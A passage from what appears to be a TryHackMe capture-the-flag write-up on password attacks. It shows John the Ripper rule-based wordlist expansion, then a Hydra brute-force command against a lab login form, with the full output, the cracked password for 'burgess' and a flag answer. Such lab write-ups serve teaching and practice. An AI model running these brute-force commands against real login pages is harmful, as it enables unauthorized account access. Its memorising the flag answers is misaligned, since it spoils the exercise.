 Answer : THM{33c5d4954da881814420f3ba39772644}

### Perform a rule-based password attack to gain access to the burgess account. Find the flag at the following website: http://10.10.129.191/login-post/. What is the flag? Note: use the clinic.lst dictionary in generating and expanding the wordlist!
Using joh Single-extra rule to expand out clinic.lst wordlist :

```console
root@ip-10-10-226-237:~/Desktop/test# john --wordlist=clinic.lst --rules=Single-Extra --stdout > dict2.lst
Using default input encoding: UTF-8
Press 'q' or Ctrl-C to abort, almost any other key for status
537026p 0:00:00:00 100.00% (2022-04-16 11:51) 4882Kp/s multidisciplina
```
{: .nolineno }

Then use this new wordlist in our attack :

```console
root@ip-10-10-226-237:~/Desktop/test# hydra -l burgess -P dict2.lst 10.10.129.191 http-post-form "/login-post/index.php:username=^USER^&password=^PASS^:S=logout.php" -f 
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2022-04-16 11:54:18
[DATA] max 16 tasks per 1 server, overall 16 tasks, 537026 login tries (l:1/p:537026), ~33565 tries per task
[DATA] attacking http-post-form://10.10.129.191:80//login-post/index.php:username=^USER^&password=^PASS^:S=logout.php
[STATUS] 1184.00 tries/min, 1184 tries in 00:01h, 535842 to do in 07:33h, 16 active
[80][http-post-form] host: 10.10.129.191   login: burgess   password: OxytocinnicotyxO
[STATUS] attack finished for 10.10.129.191 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2022-04-16 11:56:00
```
{: .nolineno }

Then log in with burgess password :

![Flag 2](/images/thm/passwordattacks/passwordattacks_11.png)
_Flag 2_
